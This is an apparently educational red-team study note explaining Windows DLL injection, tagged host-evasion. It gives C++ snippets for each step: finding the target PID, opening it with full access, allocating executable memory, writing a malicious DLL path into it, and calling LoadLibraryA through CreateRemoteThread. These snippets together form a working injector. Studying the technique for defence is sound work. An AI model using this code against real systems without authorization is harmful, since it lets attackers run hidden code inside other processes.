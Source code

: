 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/abusing-dl-ls/","tags":["red-team/host-evasion"]}
---
```


~ [[cards/red-team/Abusing Windows Internals\|Abusing Windows Internals]]
### Introduction
---
**DLL injection** is a technique used to run custom code inside the address space of another process by forcing that process to load a **Dynamic Link Library (DLL)** that contains the malicious.
## Steps
---
**Step 1: Locate the Target Process**

- Use Windows API to search for the process name and obtain its PID (Process ID).
- Uses:
  - `CreateToolhelp32Snapshot` - creates a snapshot of the specified processes, threads, modules, or heaps in the system currently running.
	  - `TH32CS_SNAPPROCESS`: Indicates we want a snapshot of all processes.
  - `Process32First` - Retrieves information about the first process in the snapshot created recently -- Acts as a starting point for process enumeration.
  - `Process32Next` -- continues the iteration through the rest of the process in the snapshot.


```cpp
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot) {
        PROCESSENTRY32 entry;
        entry.dwSize = sizeof(PROCESSENTRY32);
        if (Process32First(hSnapshot, &entry)) {
            do {
                if (!strcmp(entry.szExeFile, processName)) {
                    return entry.th32ProcessID;
                }
            } while (Process32Next(hSnapshot, &entry));
        }
    }
}


DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```

- `entry.szExeFile` holds the name of the current process being checked in the loop.
- `processName` is the process we are looking for.


**Step 2: Open the Target Process**

- Open the process using `OpenProcess` with `PROCESS_ALL_ACCESS`.
    
- This grants full permissions to manipulate memory and create threads.

```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_ALL_ACCESS,
    FALSE,
    processId
);
```

**Step 3: Allocate Memory for the DLL Path**

Remember: _hProcess_ is the variable that has a handle to the target process.

```cpp
LPVOID dllAllocatedMemory = VirtualAllocEx(
    hProcess,
    NULL,
    strlen(dllLibFullPath),
    MEM_RESERVE | MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
);
```

- Allocate memory in the target process to hold the DLL path string.
    
- Use `VirtualAllocEx` to allocate executable memory.

**Step 4: Write the DLL Path to Allocated Memory**

```cpp
WriteProcessMemory(
    hProcess, // Handle for the target process
    dllAllocatedMemory,// Allocated Memory In Region
    dllLibFullPath, // Path to the malicious DLL
    strlen(dllLibFullPath) + 1,
    NULL
);
```


- Write the DLL file path to the allocated region in the remote process.
    
- Use `WriteProcessMemory`.

**Step 5: Load and Execute the Malicious DLL**

```cpp
LPVOID loadLibrary = (LPVOID) GetProcAddress(
    GetModuleHandle("kernel32.dll"),
    "LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
    hProcess, // Handle for the target process
    NULL,
    0, // Default size from the executable of the stack
    (LPTHREAD_START_ROUTINE) loadLibrary,
    dllAllocatedMemory, // pointer to the allocated memory region.
    0,
    NULL
);
```


- Get the address of `LoadLibraryA` from kernel32.dll using `GetProcAddress`.
    
- Use `CreateRemoteThread` to create a new thread in the remote process.
    
- Pass the DLL path and execute the thread to load the DLL.

**Note:** as for the process name you need to input what the task manager sees so in our example

![Abusing DLLs.png](/img/user/cards/red-team/images/Abusing%20DLLs.png)
### Conclusion
---
Assuming all prerequisites are met (correct privileges, matching architecture, and a valid DLL), DLL injection involves:

1. Identifying the target process.
    
2. Opening a handle to it with appropriate access rights.
    
3. Allocating memory inside the target process for the DLL path.
    
4. Writing the full path of the malicious DLL into that allocated memory.
    
5. Using `LoadLibrary` via `CreateRemoteThread` to load and execute the DLL in the context of the target process.



